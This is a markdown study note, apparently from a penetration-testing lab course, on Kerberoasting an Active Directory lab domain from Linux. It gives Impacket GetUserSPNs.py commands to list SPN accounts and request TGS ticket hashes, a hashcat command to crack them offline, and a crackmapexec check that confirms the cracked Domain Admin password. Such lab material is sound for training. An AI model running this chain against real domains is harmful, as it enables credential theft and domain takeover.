 ```yaml
---
title: Kerberoasting from Linux
draft: false
tags:
  - kerberoasting
  - getuserspns
---
```

So far, we have

Obtained password policy -> User list -> Password Spray -> Beachhead -> Domain Enumeration

Now that we have a good picture of the domain and potential issues, let's see if some user accounts are configured with Service Principal Names.

## Overview

Kerberoasting targets Service Principal Names (SPN) accounts.

An SPN is a unique identifier for a service instance in a network that uses Kerberos authentication. It is used by clients to request a service ticket from the Key Distribution Center (KDC) to authenticate to the service.

Sometimes, service accounts are often added to elevated privileged groups. 

In order to attempt Kerberoasting, we need to meet at least one requirement from below:

- With domain user credentials
- Shell in the context of a domain user
- Account such as SYSTEM


## GetUserSPNs.py

Let's first list out SPNs in the domain.

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

Some of the users are member of domain admins, which is very interesting.

Now that we have list of SPNs, let's request for all TGS tickets to be cracked offline:

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>               



$krb5tgs$23$*BACKUPAGENT$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/BACKUPAGENT*$790ae75fc53b0ace5daeb5795d21b8fe$b6be1ba275e23edd3b7dd3ad4d711c68f9170bac85e722cc3d94c80c5dca6bf2f07ed3d3bc209e9a6ff0445cab89923b26a01879a53249c5f0a8c4bb41f0ea1b1196c322640d37ac064ebe3755ce8889<snip>
$krb5tgs$23$*SOLARWINDSMONITOR$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SOLARWINDSMONITOR*$993de7a8296f2a3f2fa41badec4215e1$d0fb2166453e4f2483735b9005e15667<snip>

<SNIP>
```

Instead of requesting for all TGS tickets, we can request for specific user as well:

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>               



$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$4ce5b71188b357b26032321529762c8a$1bdc5810b36c8e485ba08fcb7ab273f778115cd17734ec65be71f5b4bea4c0e63fa7bb454fdd5481e32f002abff9d1c7827fe3a7527<snip>
```

To save the ticket to an output file:

```shell-session
[!bash!]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name    MemberOf                                             PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  ------  ---------------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:13:31.639334  <never>  
```

Now let's crack the ticket:

```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

After the ticket is cracked, we can test the credentials using CME:

```shell-session
[!bash!]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\sqldev:database! (Pwn3d!
```

